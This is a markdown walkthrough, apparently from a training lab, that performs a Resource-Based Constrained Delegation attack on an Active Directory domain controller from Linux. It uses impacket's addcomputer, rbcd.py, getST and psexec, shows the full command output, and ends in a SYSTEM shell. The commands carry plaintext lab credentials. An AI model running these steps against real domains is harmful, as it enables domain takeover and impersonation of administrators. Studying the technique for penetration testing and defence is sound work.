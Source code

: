 # RBCD from Linux

## Linux

- First, we need to create a computer account, which is possible because **ms-DS-MachineAccountQuota** is set to 10 by default for authenticated users. The [addcomputer.py](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py) script from impacket can be used for this.


- Authenticate to 10.129.208.188 with 

- user "carole.holmes"

- password "Y3t4n0th3rP4ssw0rd" 

## Creating a New Computer

	> impacket-addcomputer -computer-name 'Jesta$' -computer-pass Griffin1 -dc-ip 10.129.208.188 inlanefreight.local/carole.holmes:Y3t4n0th3rP4ssw0rd

	> impacket-addcomputer -computer-name 'Jesta$' -computer-pass Griffin1 -dc-ip 10.129.208.188 inlanefreight.local/carole.holmes:Y3t4n0th3rP4ssw0rd
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Successfully added machine account Jesta$ with password Griffin1. 
	
- **Note:** We can use BloodHound.py to enumerate the domain, searching for privileges to abuse for RBCD from Linux. 

- Then, we need to add this account to the targeted computer's trust list, which is possible because **carole.holmes has GenericAll ACL** on this computer. We can use the [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py) Python script to do so. 

### Use the rbcd Python Script 
	
	> python3 rbcd.py -dc-ip 10.129.208.188 -t DC01 -f Jesta inlanefreight\\carole.holmes:Y3t4n0th3rP4ssw0rd
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Starting Resource Based Constrained Delegation Attack against DC01$
	[*] Initializing LDAP connection to 10.129.208.188
	[*] Using inlanefreight\carole.holmes account with password ***
	[*] LDAP bind OK
	[*] Initializing domainDumper()
	[*] Initializing LDAPAttack()
	[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `Jesta` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `DC01`
	[*] Delegation rights modified succesfully!
	[*] Jesta$ can now impersonate users on DC01$ via S4U2Proxy
	
- We can ask for a TGT for the created computer account, followed by a **S4U2Self** request to get a forwardable TGS ticket, and then a **S4U2Proxy** request to get a valid TGS ticket for a specific SPN on the targeted computer.

		> getST.py -spn cifs/DC01.inlanefreight.local -impersonate Administrator -dc-ip 10.129.208.188 inlanefreigh
		t.local/Jesta:Griffin1
		Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

		[-] CCache file is not found. Skipping...
		[*] Getting TGT for user
		[*] Impersonating Administrator
		[*] Requesting S4U2self
		[*] Requesting S4U2Proxy
		[*] Saving ticket in Administrator@cifs_DC01.inlanefreight.local@INLANEFREIGHT.LOCAL.ccache
		
		
- We then will use this TGS ticket by exporting the ticket's path to the KRB5CCNAME environment variable.


## Add the Ticket to KRB5CCNAME 

	> export KRB5CCNAME=Administrator@cifs_DC01.inlanefreight.local@INLANEFREIGHT.LOCAL.ccache
	
- Then you can use any impacket tool with this ticket, such as psexec.py, to get a remote shell as SYSTEM.


## Connect as Administrator 

		> psexec.py -k -no-pass dc01.inlanefreight.local                                                        
		Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

		[*] Requesting shares on dc01.inlanefreight.local.....
		[*] Found writable share ADMIN$
		[*] Uploading file JrbGvlWA.exe
		[*] Opening SVCManager on dc01.inlanefreight.local.....
		[*] Creating service vuku on dc01.inlanefreight.local.....
		[*] Starting service vuku.....
		[!] Press help for extra shell commands
		Microsoft Windows [Version 10.0.17763.2628]
		(c) 2018 Microsoft Corporation. All rights reserved.

		C:\Windows\system32> whoami
		nt authority\system

		C:\Windows\system32>
		

